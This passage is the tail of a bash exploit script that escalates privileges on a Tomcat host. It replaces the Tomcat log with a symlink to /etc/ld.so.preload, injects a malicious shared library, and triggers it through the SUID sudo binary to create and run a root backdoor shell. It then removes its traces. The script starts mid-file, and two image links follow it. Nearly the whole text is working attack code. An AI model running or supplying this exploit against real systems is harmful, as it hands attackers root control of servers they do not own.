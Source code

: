 fi
 
# Symlink the log file to ld.so.preload
rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
if [ $? -ne 0 ]; then
    echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
    cleanexit 3
fi
echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
 
# Wait for Tomcat to re-open the logs
echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)"
while :; do 
    sleep 0.1
    if [ -f /etc/ld.so.preload ]; then
        echo $PRIVESCLIB > /etc/ld.so.preload
        break;
    fi
done
 
# /etc/ld.so.preload file should be owned by tomcat user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
 
# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo --help 2>/dev/null >/dev/null
 
# Check for the rootshell
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
    echo -e "\n\033[94mPlease tell me you're seeing this too ;) \033[0m"
else
    echo -e "\n[!] Failed to get root"
    cleanexit 2
fi
 
# Execute the rootshell
echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
$BACKDOORPATH -p
 
# Job done.
cleanexit 0

[1]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuymxbej20px0b70tq.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpuz3z99j20ma0c43yz.jpg